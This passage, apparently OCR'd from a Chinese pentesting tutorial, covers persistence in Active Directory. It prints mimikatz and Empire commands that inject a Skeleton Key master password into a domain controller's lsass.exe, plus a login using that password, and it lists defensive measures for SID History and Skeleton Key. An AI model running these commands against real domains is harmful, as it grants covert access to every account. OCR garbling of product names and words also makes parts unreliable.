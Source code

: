 ### SID History后门防范措施

- 经常查看域用户中SID为500的用户。
- 完成域迁移工作后，对有相同SID History属性的用户进定期3.定期检查ID为4765和4766的日志。4765 为将SID Histtory属性添加到用户的日志。4766为将SID History属性添加到用户失败的日志。

Skeleton Key
------------

### 手工

就是万能密码

在域控制器中管理员权限打开mimikatz，将Skeleton Key注入域控中的Isass.exe进程

```csharp
privilege::debug
misc::skeleton
```

注入成功后，会在域内所有的账号中添加一个Skeleton Key,默认密码为mimikatz。

接下来可以 在域内任意用户的身份，配合该SkeletonKey，进行域内身份验证授权了

使用计算机全名是可以登录的

```csharp
net use \\xiyou.xiyou.dayu.com\ipc$ "mimikatz" /user:xiyou.dayu.com\administrator
```

### Empire

```csharp
interact KFSV7YB1 # 进入agent
usemodule persistence/misc/skeleton_key
execute
```

将skeleton\_key注入后，empire提示可以通过mimikatz进入系统

### Skeleton Key防范措施

2014年，微软在Window s操作系统中增加了 LSA保护策略，以防止Isass.cx e进程被恶意注入。从而防止mimikatz在非允作的情况下提升到debug权限。

```php
通用的Skeleton Key的防御措施列举如下：
1.域管理员用户要设置强口令，确保恶意代码不会在城控制器中执行。
2.在所有城用户中启用双因子认证，例如智能卡认证。
3.启动（例如应用程序白名单例如AppLocker以限制mimikatz在域控制器中的运行。
4.在日常网络维护中注意以下方面，也可以有效防范Skeleton Key
5.只能在64位操作系统中使用，包括WinwnSren2012、Winds Sener 2012、Windows Sever 200 Wind ows Sever 2008 R2、 WindowServer 2003 R2、 Windows Server 2003。
6.只有具有城管理员权限的用户可以将SleloKe。注人城控制器的lass cxe进程。
7.Seleton Key被注人后，用户使用现有的密码仍然可以登录系统。
8.因为Seleton Key是被注入lsass.exeex e进程的，所以它只存在于内存中。如果域控制器重启，注人的Skeleton Key将会失效
```

总结
==

权限维持很重要！

我们进去的每一个点，都很不容易.

每当我们多一台受控机器，就可能会多一个攻击维度！